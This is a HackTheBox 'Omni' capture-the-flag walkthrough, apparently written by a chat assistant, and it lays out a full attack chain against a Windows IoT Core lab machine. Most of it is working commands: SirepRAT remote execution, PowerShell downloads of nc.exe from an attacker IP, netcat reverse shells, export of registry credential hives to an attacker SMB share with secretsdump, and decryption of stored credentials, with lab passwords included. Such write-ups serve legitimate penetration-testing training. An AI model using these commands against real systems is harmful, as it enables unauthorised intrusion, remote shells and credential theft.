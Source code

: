 Got it! Here's your **HTB: Omni** walkthrough with all relevant commands included and organized by phase for clarity.

---

# 🧠 HackTheBox: Omni Walkthrough

> Difficulty: Easy  
> OS: Windows IoT Core  
> IP: `10.10.10.204`

---

## 🛰️ Recon

**Full Port Scan**
```bash
nmap -p- --min-rate 10000 -oA scans/alltcp 10.10.10.204
```

**Service Version Scan**
```bash
nmap -p 135,5985,8080,29817,29819,29820 -sC -sV -oA scans/nmap-tcpscripts 10.10.10.204
```

---

## 🌐 Web Enumeration

**[HTTP](HTTP) on port 8080 prompts for auth:**  
> Realm: *Windows Device Portal*

Add to `/etc/hosts`:
```bash
echo "10.10.10.204 omni.htb" | sudo tee -a /etc/hosts
```

---

## 🧰 Exploitation - SYSTEM Access via Sirep

**Tool**: [SirepRAT](https://github.com/SafeBreach-Labs/SirepRAT)

**Basic Command Execution**
```bash
python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "cmd.exe" --args ' /c dir c:\ '
```

**Working Directory for Staging**
```bash
dir c:\windows\system32\spool\drivers\color /b
```

**Upload nc.exe**
```bash
python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "cmd.exe" --args ' /c powershell Invoke-WebRequest -outfile c:\windows\system32\spool\drivers\color\nc.exe -uri http://10.10.14.6/nc64.exe'
```

**Start Listener**
```bash
rlwrap nc -lnvp 443
```

**Execute Reverse Shell**
```bash
python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "cmd.exe" --args ' /c c:\windows\system32\spool\drivers\color\nc.exe -e cmd 10.10.14.6 443'
```

---

## 🪪 SYSTEM to app

**user.txt is encrypted**
```powershell
(Import-CliXml -Path C:\data\users\app\user.txt).GetNetworkCredential().Password
```

---

## 🔐 Dumping Hashes (Alternate method)

**Start SMB Server**
```bash
smbserver.py share . -smb2support -username df -password df
```

**Mount Share & Dump Registry**
```cmd
net use \\10.10.14.6\share /user:df df
reg save HKLM\sam \\10.10.14.6\share\sam
reg save HKLM\system \\10.10.14.6\share\system
reg save HKLM\security \\10.10.14.6\share\security
```

**Extract with secretsdump**
```bash
secretsdump.py -sam sam -security security -system system LOCAL
```

**Crack with Hashcat or Jupyter Notebook (Penglab)**

---

## 🧑‍💻 Shell as app via HTTP:8080 (Windows Device Portal)

**Login with creds**
```text
Username: app
Password: mesh5143
```

**Command Execution on Portal**:  
```powershell
powershell -c "Invoke-WebRequest -Uri http://10.10.14.6/nc64.exe -OutFile C:\windows\system32\spool\drivers\color\nc.exe"
C:\windows\system32\spool\drivers\color\nc.exe -e cmd 10.10.14.6 443
```

---

## 🔑 Privesc app → administrator

**Found Cred Dump File**
```powershell
Import-CliXml -Path iot-admin.xml
```

**Get Creds**
```powershell
(Import-CliXml -Path iot-admin.xml).GetNetworkCredential() | fl
```

**Output:**
```text
Username : administrator
Password : _1nt3rn37ofTh1nGz
```

---

## 🧑‍🔬 Shell as Administrator

**Login to Portal with Admin Credentials**

**Reverse Shell**
```powershell
powershell -c "Invoke-WebRequest -Uri http://10.10.14.6/nc64.exe -OutFile C:\windows\system32\spool\drivers\color\nc.exe"
C:\windows\system32\spool\drivers\color\nc.exe -e cmd 10.10.14.6 443
```

---

## 🏁 Loot Flags

**Get root.txt**
```powershell
(Import-CliXml -Path C:\data\users\administrator\root.txt).GetNetworkCredential().Password
```